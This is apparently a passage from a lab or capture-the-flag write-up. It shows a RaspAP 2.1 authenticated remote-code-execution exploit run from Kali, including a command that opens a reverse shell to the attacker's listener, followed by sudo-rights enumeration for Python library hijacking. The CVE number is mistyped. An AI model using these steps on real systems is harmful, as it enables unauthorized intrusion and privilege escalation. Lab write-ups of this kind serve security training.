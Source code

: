 
# Exploitation
## CVE-20202-24572-POC - RaspAP 2.1 Authenticated RCE

#### -Copied the found exploit into a file on my kali machine named "exploit.py"

#### - Started a penelope listener listening on port 8091

#### -Typed "python3 exploit.py 192.168.97.97 8091 [my kali ip] 8091 secret 1" 

![](Images/Pasted%20image%2020221111092314.png)

#### -Navigated back to penelope listener and received a reverse shell as wwwdata:

![](Images/Pasted%20image%2020221111092345.png)

---

# Privilege Escalation
## Python Library Hijacking 

#### -Typed "sudo -l" and found www-data can run the following commands as sudo:

    (ALL) NOPASSWD: /sbin/ifup
    (ALL) NOPASSWD: /usr/bin/python /home/walter/wifi_reset.py
    (ALL) NOPASSWD: /bin/systemctl start hostapd.service
    (ALL) NOPASSWD: /bin/systemctl stop hostapd.service
    (ALL) NOPASSWD: /bin/systemctl start dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl stop dnsmasq.service
    (ALL) NOPASSWD: /bin/systemctl restart dnsmasq.service
